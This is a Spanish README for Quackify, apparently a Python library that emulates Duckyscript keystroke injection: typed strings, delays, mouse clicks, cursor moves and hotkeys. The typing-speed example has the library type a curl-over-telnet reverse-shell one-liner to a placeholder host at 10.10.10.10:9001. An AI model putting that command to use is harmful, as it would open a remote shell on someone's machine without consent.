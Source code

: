 # Quackify
*Quackify es una biblioteca para Python que emula diversas funciones del Duckyscript.*

Entre varias de ellas, encontramos funciones básicas como "string", "rem" y "delay".

Muchas de las funciones se inspiraron en [DuckyPad](https://github.com/dekuNukem/duckyPad).

# Uso

## Funciones

String: La función "string" emula lo que sería un "string" normal en un Duckyscript.

```
STRING Hola Mundo
```

El dispositivo simplemente emulará la entrada de teclado de las letras "H", "o", "l", "a", espacio, "M", "u", "n", "d", "o" en ese orden. Esencialmente, el script simulará que alguien está escribiendo "Hola Mundo" en el teclado de la computadora.

Convertido a python, seria:

```python
from quackify import send

send.string("Hola Mundo")
```

### Rem 

La función "rem" emula lo que sería el comentario en Duckyscript, comúnmente utilizado para proporcionar explicaciones o notas.

```
REM Este es un comentario en un Duckyscript.
```

Convertido a python, seria:

```python
from quackify import rem

rem.add_comment("Este es un comentario en Quackify")
```

### Delay 

La función "delay" emula lo que sería la pausa por un tiempo determinado en un Duckyscript.

```
STRING Hola
DELAY 500
STRING Mundo
```

En este caso, el script primero simula la entrada de teclado "Hola" y luego espera 500 milisegundos (o medio segundo) antes de simular la entrada de teclado "Mundo".

Convertido a python, seria:

```python
from quackify import send, delay

send.string("Hola")
delay.delay(500)
send.string("Mundo")
```

### Interacción con el ratón.

Quackify también incluye funciones para interactuar con el cursor, como clic derecho, clic izquierdo, emulación de clic de rueda del mouse, así como para mover el cursor a coordenadas específicas y para imprimir las coordenadas actuales del cursor.

```python
# mouse_click.right()  =  RMOUSE
# mouse_click.left() = LMOUSE
# mouse_clicl.middle() = MMOUSE
````

Emular click derecho, izquierdo y rueda del mouse:

```python
from quackify import mouse_click

# Click derecho
mouse_click.right()

# Click  izquierdo

mouse_click.left()

# Clickear usando la rueda del mouse

mouse_click.middle()
```

Con Quackify, también puedes emular el movimiento del cursor de manera similar a la función "MOUSE_MOVE" de DuckyPad.

```python
from quackify import mouse_move

mouse_move.move(1344, 17)
```

Con esto, el cursor se moverá a las coordenadas proporcionadas. Además, Quackify incluye la función **"get_pos"**, que nos permitirá visualizar la posición actual del cursor.

```python
from quackify import mouse_move

mouse_move.get_pos()
```

Con esto, se mostrarían las coordenadas x,y del cursor, y no sería necesario agregar un comando print, ya que este ya está integrado en el código.

### Velocidad de escritura

También, la función string incluye una función adicional llamada **"speed"**. Con esta función, podremos configurar la velocidad a la que el script escribirá, como se muestra en el siguiente ejemplo:

```python
from quackify import send

send.speed(1)
send.string("C='curl -Ns telnet://10.10.10.10:9001'; $C </dev/null 2>&1 | sh 2>&1 | $C >/dev/nul")
```

Si se desea ajustar la velocidad de escritura, es necesario **declarar la función "send.speed" antes de llamar la funcion "send.string"**.

Un número mayor, por ejemplo, 1, 2, 3, hará que la escritura sea más lenta. En cambio, si el número es menor, como 0.9, 0.5, 0.4, la escritura será más rápida.

### Hotkeys

Quackify también incorpora la capacidad de simular pulsaciones de teclas especiales, como ctrl, alt, shift, tab, enter, entre otras.

```python
from quackify import hotkeys

hotkeys.hotkey('win+r')
````

Aquí podemos simular la pulsación de teclas, como Windows + R, utilizando una única línea de código.

**Todas las hotkeys disponibles en quackify:**

```python
['\t', '\n', '\r', ' ', '!', '"', '#', '$', '%', '&', "'", '(',
')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7',
'8', '9', ':', ';', '<', '=', '>', '?', '@', '[', '\\', ']', '^', '_', '`',
'a', 'b', 'c', 'd', 'e','f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o',
'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '|', '}', '~',
'accept', 'add', 'alt', 'altleft', 'altright', 'apps', 'backspace',
'browserback', 'browserfavorites', 'browserforward', 'browserhome',
'browserrefresh', 'browsersearch', 'browserstop', 'capslock', 'clear',
'convert', 'ctrl', 'ctrlleft', 'ctrlright', 'decimal', 'del', 'delete',
'divide', 'down', 'end', 'enter', 'esc', 'escape', 'execute', 'f1', 'f10',
'f11', 'f12', 'f13', 'f14', 'f15', 'f16', 'f17', 'f18', 'f19', 'f2', 'f20',
'f21', 'f22', 'f23', 'f24', 'f3', 'f4', 'f5', 'f6', 'f7', 'f8', 'f9',
'final', 'fn', 'hanguel', 'hangul', 'hanja', 'help', 'home', 'insert', 'junja',
'kana', 'kanji', 'launchapp1', 'launchapp2', 'launchmail',
'launchmediaselect', 'left', 'modechange', 'multiply', 'nexttrack',
'nonconvert', 'num0', 'num1', 'num2', 'num3', 'num4', 'num5', 'num6',
'num7', 'num8', 'num9', 'numlock', 'pagedown', 'pageup', 'pause', 'pgdn',
'pgup', 'playpause', 'prevtrack', 'print', 'printscreen', 'prntscrn',
'prtsc', 'prtscr', 'return', 'right', 'scrolllock', 'select', 'separator',
'shift', 'shiftleft', 'shiftright', 'sleep', 'space', 'stop', 'subtract', 'tab',
'up', 'volumedown', 'volumemute', 'volumeup', 'win', 'winleft', 'winright', 'yen',
'command', 'option', 'optionleft', 'optionright']
```

Si es necesario combinar más de una combinación de teclas, se tendría que colocar de la siguiente manera:

```python
from quackify import hotkeys

hotkeys.hotkey('win+v')
```

En este ejemplo, se muestra la combinación de teclas para abrir el portapapeles de Windows. 

En caso de que solo sea necesario pulsar una tecla especial, únicamente se colocaría el nombre de esta.

```python
from quackify import hotkeys

hotkeys.hotkey('enter')
```

### Loops

Aunque Quackify no incorpora bucles personalizados, es posible realizarlos fácilmente utilizando la sintaxis de Python. Observemos la recreación de este código de Duckyscript en Python:

```
STRING Hello world
REPEAT 10
```

Esto repetiría la instrucción "STRING Hello world" 10 veces.

En Python, se traduciría de la siguiente manera:

```python
from quackify import send

for _ in range(10):
   send.string("Hello World")
```

## Instalacion

*Usando pip*

```
pip install quackify
```

*Desde setup.py*

```bash
python setup.py install
```
